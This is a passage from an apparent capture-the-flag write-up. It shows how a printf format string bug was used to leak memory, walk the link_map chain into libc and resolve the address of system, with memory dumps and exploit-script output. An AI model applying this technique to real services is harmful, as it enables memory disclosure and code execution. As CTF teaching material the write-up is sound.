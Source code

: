This turned out to work. We traversed the link_map by hand, adjusting the leaked bytes from time to time (remember, printf chokes on nul bytes).

At the start of the got, we find these bytes:

```
0x13371f14 ; .dynamic
0xb7fff938 ; *link_map
0xb7ff24f0 ; *dl-resolve
```

We take 0xb7fff938, the *link_map, and dump from there. link_map looks like this:

```c
struct link_map
  {
    /* These first few members are part of the protocol with the debugger.
       This is the same format used in SVR4.  */

    ElfW(Addr) l_addr;          /* Base address shared object is loaded at.  */
    char *l_name;               /* Absolute file name object was found in.  */
    ElfW(Dyn) *l_ld;            /* Dynamic section of the shared object.  */
    struct link_map *l_next, *l_prev; /* Chain of loaded objects.  */
  };
```

So at 0xb7fff938 we find:
```
0x746e450a ; base_addr.. not correct due to printf
0xb7fffc24 ; name! empty
0x13371f14 ; the bin itself... not useful.
0xb7fffc28 ; ptr->next
```

This is the binary. On to the next one at 0xb7fffc28, which was linux-gate... Then the next one was indeed libc! This was confirmed by reading link_map->l_name. We now had the dynamic section of libc, time to parse it for system. Soon, using the printf format string vulnerability and a messy python script, we were dumping symbols. After about an hour, we hit the jackpot:

```
[+] Opening connection to challs.ctf.site on port 20002: Done
0xb7e2dec8 0x0
0xb7e2ded8 0x1da8
1768709983 __li
0x0
0xb7e2dee8 0xbde
1819570783 _rtl
0x0
0xb7e2def8 0x45d1
1768709983 __li
0x0
0xb7e2df08 0x13f4
...
0xb7e2f948 0x3176
signal
0xb7e2f9a8 0xeab
puts
0xb7e30208 0xa3e
<empty>

0xb7e30588 0x3063
__libc_system
Enter your name:
[!] found system!0x3fcd0 0xb7e69cd0
```
